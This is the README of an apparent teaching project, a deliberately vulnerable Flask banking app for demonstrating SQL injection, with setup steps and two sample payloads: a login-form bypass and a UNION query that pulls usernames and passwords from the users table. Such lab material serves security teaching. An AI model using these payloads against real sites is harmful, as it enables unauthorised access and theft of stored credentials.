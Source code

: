 # broke-bank
SQL injection demo

# Setup

1. Clone repository
```
git clone https://github.com/anilmawji/broke-bank.git; cd broke-bank
```

2. Create and activate virtual environment (optional, recommended)
```
python -m venv .venv      # Create virtual environment
source .venv/bin/activate # On macOS/Linux
.venv\Scripts\activate    # On Windows
```

2. Install dependencies
```
pip install -r requirements.txt
```

3. Start server (local deployment)
```
flask run
```

# SQL Injection Examples

Login form password (make sure to include the space at the end!)
```
a' or 1=1 -- 
```

Transaction history search bar
```
3' union select null, user_id, version(), username, user_password from users;
```
